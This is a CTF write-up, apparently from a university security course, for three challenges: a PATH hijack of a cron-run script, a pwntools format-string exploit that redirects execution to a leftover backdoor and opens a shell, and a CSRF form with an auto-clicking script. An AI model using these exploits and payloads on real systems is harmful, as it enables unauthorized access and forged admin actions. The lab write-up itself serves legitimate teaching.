

# CTF extra

## British Ponctuality

> First we started by listing the content of the `home/flag_reader` directory and we noticed a script.

```bash
nobody@caea6090734d:/home/flag_reader$ ls
main.c  my_script.sh  reader
nobody@caea6090734d:/home/flag_reader$ cat my_script.sh
#!/bin/bash

if [ -f "/tmp/env" ]; then
    echo "Sourcing env"
    export $(/usr/bin/cat /tmp/env | /usr/bin/xargs)
    rm /tmp/env
fi

printenv
exec /home/flag_reader/reader
```

> We noticed that it was using printenv without a path so by changing the path we could exploit this to run our own version of printenv.
>
> Because our script was using /tmp/env to load the environment we created that file to change the $PATH variable.

```bash
nobody@caea6090734d:/tmp$ ls
env last_log 
nobody@caea6090734d:/tmp$ cat env
export PATH=/tmp/:$PATH
```

> Now at /tmp we created a printenv file that was the one that the script will then execute instead of the normal printenv.

```bash
nobody@caea6090734d:/tmp$ echo "cat ../flags/flag.txt" > printenv
```

> When we ran the script with this configuration we still didn't have permissions to access the flag but we noticed that the server was running `cron` to periodically run the script and this `cron` had the permissions to access the flags/flag.txt file.
>
> So after creating our version of printenv we just waited and then in the last_log file there it was the flag.

## FinalFormat

> For this challenge, the backdoor had been removed. But using gdb we were able to see that it was still there

```bash
gdb-peda$ info functions
All defined functions:

Non-debugging symbols:
...
0x08049236  old_backdoor
...
```

> So our idea was to try to change the flow of the program so that it would jump to the old_backdoor function and therefore access the flag.
>
> We then run `checksec` on the program to see what type of protection it had and we saw that writing in the stack like in the other challenges would be impossible because NX was enabled.

```bash
 /home/seed/Downloads/program'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)

```

> We then used gdb to find instructions that would use call and jump to another address.
>
> We found a jump in `0x0804c010` so we now needed to change the old_backdoor function address to be at this location so that the code would run the backdoor function to then a shell be launched.
>
>Using format string vulnerabilities we created this exploit where we write the address of the backdoor `0x08049236` into the `0x0804c010` position in memory so that when the jump to this is called the program will jump to the backdoor function and execute it allowing for a shell to be launched.

```py
from pwn import *

LOCAL = False

if LOCAL:
    pause()
else:    
    p = remote("ctf-fsi.fe.up.pt", 4007)

#0x08049236  old_backdoor

N = 60
content = bytearray(0x0 for i in range(N))

content[0:4]  =  ("....").to_bytes(4, byteorder='little')
content[4:8]  =  (0x0804c012).to_bytes(4, byteorder='little')
content[8:12]  =  ("....").encode('latin-1')
content[12:16]  =  (0x0804c010).to_bytes(4, byteorder='little')

s = "%.2036x" + "%hn" + "%.35378x%hn"

fmt  = (s).encode('latin-1')
content[16:16+len(fmt)] = fmt

p.recvuntil(b"here...")
p.sendline(content)
p.interactive()
```

> We had to arrange a different way of writing `0x08049236` because using the normal way of `%nrofcharsx%1$n` would take a lot of time because `0x08049236` is 134517302 in decimal. So we used `%hn` to write into 2 bytes instead of 4. Therefore we would need to write `0x0804` to  `0x0804c010` and `0x9236` to  `0x0804c012`. We also use `....` as placeholder because `%x` performs a jump in the stack and therefore we would loose important content.
>
> The value 2036 appears because `0x0804` = 2052 but we have 16 bytes already written to the content. The value 35378 appears because `0x9236` = 37430 but we have already written 2052 bytes.
>
> After running this python file a shell was launched and to get the flag we just executed :

```bash
cat flag.txt
```

## Apply For Flag II

> So in this challenge the XSS possibility was removed because now the admin would go to another page to validate our justification so we couldn´t do an XSS attack like in the week 10 challenge 1 ctf.
>
> We first started by analysing the website and we noticed that in the page there was now an id for the request that our justification will use. We assumed that this was going to be important to falsificate an approve request.
>
> We then went to see the font code of the new page that the admin would use and we noticed that the give the flag button was connected to a post method to "/request/&{requestid}/approve". So we would need to get the admin to go to this page to approve our request and give the flag.
>
> 
>
> So we find that we would need to realize an CSRF(Cross-site request forgery) to lead the admin to go this page.
>
> To achieve this we would need to create a button live the "give the flag" button but in the page where our justifcation go and there with javascript make the admin click that button like we did in week10 challenge 1 ctf.
> We send this as our justification:

```html
<form id="form" method="POST" action="http://ctf-fsi.fe.up.pt:5005/request/42fb836522c872ec8986ce0c9aecfa3394b94b61/approve" role="form"><div class="submit"><input type="submit" id="giveflag" value="Give the flag"> </div> </form><script>document.getElementById('giveflag').click()</script>
```

> We used the id request that was given for us in the page and then when we submitted this and we were redirected to a forbidden page warning so we thought that we did something wrong.
>
> 
>
> This was logical because us, as normal users, were not able to go to this page and when we were redirected to this page by the form we would be blocked. But we knew that the admin would have permissions to go to this page so we would need to disabled the javascript in our page so we wouldn't click on the give the flag button but the admin would have the javascript running and therefore would click on the button and given us the flag.
>
> We used uBlockOrigin extension to disable javascript on our browser and then refreshed the page and there it was the flag.
>
> 
>
> 
